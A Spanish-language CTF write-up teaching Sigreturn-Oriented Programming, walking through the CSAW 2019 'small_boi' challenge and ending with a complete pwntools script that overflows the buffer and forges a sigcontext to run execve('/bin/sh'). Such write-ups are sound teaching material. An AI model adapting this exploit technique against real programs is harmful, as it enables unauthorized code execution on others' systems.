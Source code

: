 ```yaml
---
title: Programación Orientada a Sigreturn (SROP) 
author: c4rta
date: 2023-01-09
categories: [Explotacion binaria, CSAW]
tags: [ROP, SROP]
---
```


Resolucion de un ejercicio aplicando la tecnica SROP, para ejecutar un sigcontext falso y conseguir una shell

## Señales

Las señales son un mecanismo para enviar notificaciones asincrónicas directamente a un proceso o subproceso. Este se utilizan para matar procesos, para decirles que los temporizadores han expirado o para notificar sobre un comportamiento anormal.

### Funcion de las señales

![](/assets/img/commons/srop/se%C3%B1al.webp)

1. Cuando se tiene un proceso previamente creado, lo que se hace primero es que el kernel envia una señal a ese proceso, el proceso se suspende temporalmente y entrara en el kernel

2. Despues, el kernel guarda el contexto de ese proceso y salta al controlador de la señal (este ya debe de estar previamente definido)

3. Cuando se vuelve e pasar el kernel, el controlador de la señal regresa, y el kernel restaura el contexto del proceso

4. Ejecucion del proceso

Del paso 2 al 3 es la clave. SROP abusa de ```sigreturn()``` por que normalmente restaura el contexto del proceso despues de que regresa el controlador de señal, esto funciona mas o menos asi:

El kernel guarda el contexto del proceso en el stack del proceso, luego se usa la direccion de ```rt_sigreturn``` en el top del stack, esta direccion apunta a un fragmento de codigo en el que ```sigreturn()``` llamara a sistema. Despues del paso 3, el RSP o ESP apunta a ```rt_sigreturn``` y ejecuta el ```sigcontext```

### SROP

SROP es una variante de ROP, pero en esta solo se deben de cumplir dos condiciones

1. Un gadget ```syscall; ret```
2. Una manera de poner ```0xf``` en ```RAX``` o ```EAX```

Dos de las formas mas usadas para poner ```0xf``` en ```RAX``` son:

1. Usar ```mov eax, 0xf```
2. Usar ```pop eax; ret```

Ambas son faciles de implementar, ya que meten ```0xf``` en una sola acccion.
Y el ```0xf``` simplemente es el ```syscall ID de rt_sigreturn```.

## Como funciona

Aun que es similar a ROP, no funcionan de la misma forma, SROP funciona poniendo en el call stack un ```sigcontext``` pero falso. y luego sobrescribir el ```RIP``` o ```EIP``` con la direccion de un gadget que permita llamar a ```sigreturn()```, y se apunta a ```sigreturn()``` ya que este permite ejecutar el ```sigcontext```, realmente esto es muy poderoso, ya que con SROP podemos controlar al mismo tiempo todos los valores de los registros. Y cuando digo ```sigcontext```, me refiero a esto:

```c
struct sigcontext_64 {
	__u64				r8;
	__u64				r9;
	__u64				r10;
	__u64				r11;
	__u64				r12;
	__u64				r13;
	__u64				r14;
	__u64				r15;
	__u64				di;
	__u64				si;
	__u64				bp;
	__u64				bx;
	__u64				dx;
	__u64				ax;
	__u64				cx;
	__u64				sp;
	__u64				ip;
	__u64				flags;
	__u16				cs;
	__u16				gs;
	__u16				fs;
	__u16				ss;
	__u64				err;
	__u64				trapno;
	__u64				oldmask;
	__u64				cr2;
	__u64				fpstate;
	__u64				reserved1[8];
};
```
Cuando el atacante crea un ```sigcontext``` falso, puede establecer cualquier valor de cada uno de esos registros

## Explotacion

Para el ejemplo usare un clasico, ```smallboi``` de CSAW 2019

Al ejecutarlo simplemente se queda esperando un input y se cierra, y al tratar de desbordar el buffer vemos que si se puede:

```[1]    423456 segmentation fault (core dumped)  ./small_boi```

Pero tiene NX asi que no podemos ejecutar una shellcode

### Analizandolo

Al materlo al radare, vemos y hacer un ```pdf``` vemos algo como esto:

![](/assets/img/commons/srop/radare1.png)

Esto simplemente es el entry point, y lo unico interesante es que en la direccion ```0x004001b6``` hace un llamado a ```fcn.0040018c```, asi que vamos pa' alla

![](/assets/img/commons/srop/radare2.png)

Este es su codigo, basicamente el binario hacer una syscall de ```read()```, la cual es la funcion que recibe nuestro input, la cual lee ```0x200``` bytes que vienen de ```var_20h```


### Sacando el offset el RIP

Esta es la parte mas sencilla, asi que realmente no requiere mucha explicacion, lo que hice fue:

1. Usando pwndbg genere con ```cyclic 100``` una secuencia de 100 caracteres que le pase como input al programa
2. Usando ```cyclic -l 0x6161616161616166``` obtuve el offset del saved-RIP, le pase esos 61, ya que es el valor que tiene el saved-RIP, como se puede ver: ```► 0x4001ac   ret   <0x6161616161616166>```

Y bueno, el offset es 40

### Sacando el gadget

El binario apenas si tiene instrucciones y por consiguiente apenas y tendra los gadgets que son usados comunmente jaja, asi que ahora queda mostrar los gadgets usando ```/R``` en radare, a ver que onda.

Despues de ver los gadgets nos encontramos con el que usaremos:

![](/assets/img/commons/srop/radare3.png)

Aqui esta todo lo que ocupamos, este unico gadget hace las dos condiciones que mencion al principio, ya que establece a ```EAX``` el nuemero de la syscall equivalente a ```sigreturn()``` y la invoca. Tambien como mencione antes, en SROP se crear un ```sigcontext``` falso, asi que en esta caso haremos uno falso llamando a ```execve()``` con el arguemento ```/bin/sh``` 

Para sacar ```/bin/sh``` simplemente podemos ```/ /bin/sh``` y vemos que nos arroja algo como esto:

![](/assets/img/commons/srop/radare4.png)

Donde la direccion de ```/bin/sh``` es la que esta seleccionada

## Exploit

Al conseguir todo, nuestro exploit queda asi:

```py
from pwn import *

context.arch = 'amd64'

p = process("./small_boi")

bin_sh = 0x4001ca
sigreturn = 0x400180
syscall = 0x400185

payload = b'A'*40
payload += p64(sigreturn)

frame = SigreturnFrame(kernel='amd64')
frame.rax = 59
frame.rdi = bin_sh
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall

payload += bytes(frame)
p.send(payload)
p.interactive()
```
Y los valores salieron de aca:

![](/assets/img/commons/srop/radare5.png)

Con ```SigreturnFrame``` Podemos crear un ```sigcontext``` falso, donde se establece ```rax``` a 59 (para execve), ```rdi``` a la dirección del ```/bin/sh```, ```rsi``` y ```rdx``` ambos a 0, y ```rip``` hacia la ```syscall```, esto con el fin de que la ```rt_sigreturn``` syscall cambie de contexto usando estos valores del falso ```sigcontext```, llamando así a ```execve``` con ```/bin/sh```. :point_up: 🤓 

Y el ejecutarlo nos da la shell:

![](/assets/img/commons/srop/exploit.png)

Eso ha sido todo, gracias por leer ❤

![](/assets/img/commons/srop/waifu.jpg)


